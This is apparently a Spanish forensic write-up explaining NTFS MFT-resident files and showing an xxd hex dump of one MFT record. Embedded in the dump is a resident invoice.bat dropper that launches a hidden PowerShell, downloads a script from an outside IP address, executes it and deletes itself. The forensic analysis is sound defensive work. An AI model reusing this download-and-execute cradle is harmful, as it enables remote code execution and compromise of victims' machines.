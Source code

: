 Esto se llama:

> **Archivo residente en MFT**  
> (en inglés: **MFT Resident File**)

## Esto es importante en análisis forense porque:
1. **El contenido del archivo puede no aparecer como sector o archivo tradicional en disco.**
   - Herramientas que sólo miran datos por fuera del MFT podrían no detectarlo.

2. **Un atacante puede ocultar malware o scripts maliciosos directamente dentro del MFT**, si son pequeños.
   - Especialmente comandos en PowerShell, scripts en VBS, etc.

3. **Las herramientas forenses avanzadas pueden extraer estos datos directamente del MFT.**

En pocas palabras: **Cada registro en el archivo $MFT tiene 1 024 bytes disponibles para almacenar información estructurada en atributos. Estos atributos contienen tanto metadatos como potencialmente el contenido del archivo, si es lo suficientemente pequeño.**

Esto podemos verlo desde editores hexadecimales como **HxD**, pero si se prefiere se puede hacer desde la terminal: 

```bash 
─$ xxd -s $((23436*1024)) -l 1024 '$MFT'
016e3000: 4649 4c45 3000 0300 05ff 4b59 0000 0000  FILE0.....KY....
016e3010: 0900 0100 3800 0100 0003 0000 0004 0000  ....8...........
016e3020: 0000 0000 0000 0000 0400 0000 8c5b 0000  .............[..
016e3030: 0300 3061 0000 0000 1000 0000 6000 0000  ..0a........`...
016e3040: 0000 0000 0000 0000 4800 0000 1800 0000  ........H.......
016e3050: 009a 6c54 a15e da01 921d 6219 9b5e da01  ..lT.^....b..^..
016e3060: 921d 6219 9b5e da01 f929 101a 9b5e da01  ..b..^...)...^..
016e3070: 2000 0000 0000 0000 0000 0000 0000 0000   ...............
016e3080: 0000 0000 a805 0000 0000 0000 0000 0000  ................
016e3090: 9829 6e2d 0000 0000 3000 0000 7000 0000  .)n-....0...p...
016e30a0: 0000 0000 0000 0200 5800 0000 1800 0100  ........X.......
016e30b0: 015a 0100 0000 0200 0e5b 5d19 9b5e da01  .Z.......[]..^..
016e30c0: 0e5b 5d19 9b5e da01 0e5b 5d19 9b5e da01  .[]..^...[]..^..
016e30d0: 0e5b 5d19 9b5e da01 0000 0000 0000 0000  .[]..^..........
016e30e0: 0000 0000 0000 0000 2000 0000 0000 0000  ........ .......
016e30f0: 0b03 6900 6e00 7600 6f00 6900 6300 6500  ..i.n.v.o.i.c.e.
016e3100: 2e00 6200 6100 7400 8000 0000 3801 0000  ..b.a.t.....8...
016e3110: 0000 1800 0000 0100 1e01 0000 1800 0000  ................
016e3120: 4065 6368 6f20 6f66 660a 7374 6172 7420  @echo off.start 
016e3130: 2f62 2070 6f77 6572 7368 656c 6c2e 6578  /b powershell.ex
016e3140: 6520 2d6e 6f6c 202d 7720 3120 2d6e 6f70  e -nol -w 1 -nop
016e3150: 202d 6570 2062 7970 6173 7320 2228 4e65   -ep bypass "(Ne
016e3160: 772d 4f62 6a65 6374 204e 6574 2e57 6562  w-Object Net.Web
016e3170: 436c 6965 6e74 292e 5072 6f78 792e 4372  Client).Proxy.Cr
016e3180: 6564 656e 7469 616c 733d 5b4e 6574 2e43  edentials=[Net.C
016e3190: 7265 6465 6e74 6961 6c43 6163 6865 5d3a  redentialCache]:
016e31a0: 3a44 6566 6175 6c74 4e65 7477 6f72 6b43  :DefaultNetworkC
016e31b0: 7265 6465 6e74 6961 6c73 3b69 7772 2827  redentials;iwr('
016e31c0: 6874 7470 3a2f 2f34 332e 3230 342e 3131  http://43.204.11
016e31d0: 302e 3230 333a 3636 3636 2f64 6f77 6e6c  0.203:6666/downl
016e31e0: 6f61 642f 706f 7765 7273 6865 6c6c 2f4f  oad/powershell/O
016e31f0: 6d31 6864 4852 705a 6d56 7a64 4746 0300  m1hdHRpZmVzdGF..
016e3200: 5739 7549 4756 3064 773d 3d27 2920 2d55  W9uIGV0dw==') -U
016e3210: 7365 4261 7369 6350 6172 7369 6e67 7c69  seBasicParsing|i
016e3220: 6578 220a 2867 6f74 6f29 2032 3e6e 756c  ex".(goto) 2>nul
016e3230: 2026 2064 656c 2022 257e 6630 220a 0000   & del "%~f0"...
016e3240: 8000 0000 b800 0000 000f 1800 0000 0300  ................
016e3250: 7c00 0000 3800 0000 5a00 6f00 6e00 6500  |...8...Z.o.n.e.
016e3260: 2e00 4900 6400 6500 6e00 7400 6900 6600  ..I.d.e.n.t.i.f.
016e3270: 6900 6500 7200 0000 5b5a 6f6e 6554 7261  i.e.r...[ZoneTra
016e3280: 6e73 6665 725d 0d0a 5a6f 6e65 4964 3d33  nsfer]..ZoneId=3
016e3290: 0d0a 5265 6665 7272 6572 5572 6c3d 433a  ..ReferrerUrl=C:
```